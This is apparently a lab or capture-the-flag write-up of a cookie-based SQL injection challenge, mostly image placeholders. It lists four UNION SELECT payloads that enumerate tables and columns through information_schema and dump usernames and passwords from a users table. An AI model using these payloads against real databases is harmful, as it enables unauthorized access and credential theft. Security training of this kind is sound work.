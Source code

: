 ﻿Similar to the previous challenges here we are greeted with a form or a login page which asks us to insert the username and password that is necessary for logging into the website.

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

We proceed by fuzzing with the inputs of the following fields and find that “admin” works in this case as both username and password.

But here as we can see mysql helps us in looking into the data that is present within the database or tables.

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

Now using one of the credentials that we saw in the mysql database we will login to the page.

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

These credentials are then stored as cookies within the webpage we can access them and change their values and try breaking the query.

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

We proceed by invalidating the first part of the payload by eliminating “Dumb” from the payload.

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

**PAYLOAD**: ’ union select 1,group\_concat(column\_name),3 from information\_schema.columns where table\_schema='security' #

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

**PAYLOAD**: ' union select 1,group\_concat(table\_name),3 from information\_schema.tables where table\_schema='security' #

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

**PAYLOAD**: ' union select 1,group\_concat(username),3 from users #

![](Aspose.Words.19c32a14-8bc3-439b-b209-dcfc8a9063be.001.png)

**PAYLOAD**: ‘ union select 1,group\_concat(username),group\_concat(password) from users #
